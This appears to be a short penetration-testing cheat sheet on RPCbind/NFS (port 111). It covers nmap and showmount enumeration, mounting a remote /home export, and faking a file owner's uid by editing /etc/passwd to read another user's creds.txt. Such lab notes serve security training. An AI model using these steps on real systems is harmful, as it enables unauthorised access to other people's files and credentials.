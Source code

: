 # Port 111 - RpcBind

## Basic Information

### Nmap enumerations

```text
nmap -p 111 --script nfs* 10.11.1.72
```

### Manual enumerations

```text
showmount -e 10.11.1.72
```

## Mounting rpc share

```text
kali@kali:~$ mkdir /mnt/home
kali@kali:~$ sudo mount -t nfs -o vers=3  10.11.1.72:/home /mnt/home
```

## Getting access denied on files

### Impersonate user uid

```text
ls -aln ./
-rwx------ 1 1014 1014   48 Oct 28  2019 creds.txt
```

> cat /etc/passwd
>
> pwn:x:1001:1001:,,,:/home/pwn:/bin/bash

Changing the uid of the user pwn to impersonate the file owner on rpcbind.

```text
sudo sed -i -e 's/1001/1014/g' /etc/passwd
```

## 

